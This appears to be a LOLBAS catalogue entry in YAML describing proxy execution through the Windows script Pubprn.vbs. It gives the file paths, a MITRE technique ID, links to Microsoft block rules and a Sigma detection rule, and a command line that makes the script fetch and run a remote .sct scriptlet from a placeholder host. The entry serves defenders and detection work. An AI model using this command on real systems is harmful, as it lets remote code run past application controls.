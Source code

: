 ```yaml
---
Name: Pubprn.vbs
Description: Proxy execution with Pubprn.vbs
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
    Description: Set the 2nd variable with a Script COM moniker to perform Windows Script Host (WSH) Injection
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216.001
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
  - Path: C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Pubprn_calc.sct
Detection:
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff5102832031425f6eed011dd3a2e62653008c94/rules/windows/process_creation/proc_creation_win_lolbin_pubprn.yml
Resources:
  - Link: https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
Acknowledgement:
  - Person: Matt Nelson
    Handle: '@enigma0x3'
---
```

